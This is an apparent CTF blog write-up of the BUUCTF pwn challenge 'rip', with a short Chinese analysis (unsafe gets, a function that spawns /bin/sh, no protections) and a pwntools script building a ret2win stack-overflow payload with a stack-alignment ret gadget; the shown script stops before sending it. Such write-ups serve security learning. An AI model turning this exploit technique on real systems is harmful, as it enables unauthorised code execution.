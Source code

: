 ```yaml
---
title: "Write-ups: BUUCTF"
published: 2025-07-05
updated: 2025-07-30
description: "Write-ups for BUUCTF's pwn aspect."
image: "https://jsd.cdn.zzko.cn/gh/CuB3y0nd/picx-images-hosting@master/.77dus3996s.avif"
tags: ["Pwn", "Write-ups"]
category: "Write-ups"
draft: false
---
```


# rip

## Information

- Category: Pwn
- Points: 1

## Write-up

丢给 IDA 老婆分析，看到有一个危险函数 `gets`，还有一个 `fun` 会返回 `system("/bin/sh")`，保护全关。直接打，注意栈对齐。

## Exploit

```python
#!/usr/bin/python

from pwn import ROP, args, context, flat, gdb, process, remote

gdbscript = """
b *main+32
b *main+67
c
"""

FILE = "./pwn1"
HOST, PORT = "node5.buuoj.cn", 27889

context(log_level="debug", binary=FILE, terminal="kitty")


def launch():
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)

    if args.D:
        gdb.attach(target, gdbscript=gdbscript)

    return target


def construct_payload():
    elf = context.binary
    rop = ROP(elf)

    payload = flat(b"A" * 0x17, rop.ret.address, elf.symbols["fun"])

    return payload
```